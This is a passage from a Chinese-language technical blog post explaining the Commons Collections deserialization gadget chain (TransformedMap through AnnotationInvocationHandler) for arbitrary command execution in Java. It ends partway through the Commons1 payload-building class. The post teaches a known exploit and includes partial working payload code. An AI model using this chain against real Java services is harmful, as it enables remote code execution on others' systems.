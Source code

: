             exMapValue.setValue(1);
        }
    }
}
{% endhighlight %}

根据之前的分析，将上面这段代码编译运行后会默认会弹出计算器，对代码详细执行过程有疑惑的可以通过单步调试进行测试：

![]({{ site.url }}/public/img/article/2015-11-25-untrusted-deserialization-exploit-with-java/5.png)

然后我们现在只是测试了使用 `TransformedMap` 进行任意命令执行而已，要想在 Java 应用反序列化的过程中触发该过程还需要找到一个类，它能够在反序列化调用 `readObject()` 的时候调用 `TransformedMap` 内置类 `MapEntry` 中的 `setValue()` 函数，这样才能构成一条完整的 Gadget 调用链。恰好在 `sun.reflect.annotation.AnnotationInvocationHandler` 类具有 `Map` 类型的参数，并且在 `readObject()` 方法中触发了上面所提到的所有条件，其源码如下：

{% highlight java %}
    private void readObject(java.io.ObjectInputStream s) {
        ...省略...
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) || value instanceof ExceptionProxy)) {
                    memberValue.setValue(new AnnotationTypeMismatchExceptionProxy(value.getClass() + "[" + value + "]").setMember(annotationType.members().get(name)));
                }
            }
        }
    }
{% endhighlight %}

可以注意到 `memberValue` 是 `AnnotationInvocationHandler` 类中类型声明为 `Map<String, Object>` 的成员变量，刚好和之前构造的 `TransformedMap` 类型相符，因此我们可以通过 Java 的反射机制动态的获取 `AnnotationInvocationHandler` 类，使用精心构造好的 `TransformedMap` 作为它的实例化参数，然后将实例化的 `AnnotationInvocationHandler` 进行序列化得到二进制数据，最后传递给具有相应环境的序列化数据交互接口使之触发命令执行的 Gadget，完整代码如下：

{% highlight java %}
package exserial.payloads;

import java.io.ObjectOutputStream;

import java.util.Map;
import java.util.HashMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.map.TransformedMap;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;

import exserial.payloads.utils.Serializables;

public class Commons1 {

    public static Object getAnnotationInvocationHandler(String command) throws Exception {
        String[] execArgs = command.split(",");
        Transformer[] transforms = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[] {Object.class, Object[].class},